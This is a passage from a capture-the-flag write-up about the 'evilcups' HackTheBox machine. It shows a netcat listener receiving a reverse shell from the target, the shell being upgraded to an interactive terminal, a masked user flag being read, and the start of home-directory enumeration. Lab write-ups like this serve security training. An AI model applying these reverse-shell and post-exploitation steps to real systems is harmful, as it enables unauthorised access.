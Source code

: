 As soon as I do, I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.40 56432
bash: cannot set terminal process group (1358): Inappropriate ioctl for device
bash: no job control in this shell
lp@evilcups:/$ 

```

I’ll [upgrade my shell](https://www.youtube.com/waDtch?v=qE6DxqJg8Q):

```

lp@evilcups:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
lp@evilcups:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
lp@evilcups:/$

```

I’ll find `user.txt` world-readable in `/home/htb/`:

```

lp@evilcups:/home/htb$ cat user.txt
2a7bfa97************************

```

## Shell as root

### Enumeration

#### Home Directories

There is one user on the box, htb:

```

lp@evilcups:/home$ ls -l
total 4
drwxrwx--- 3 htb lp 4096 Sep 30 13:04 htb

```
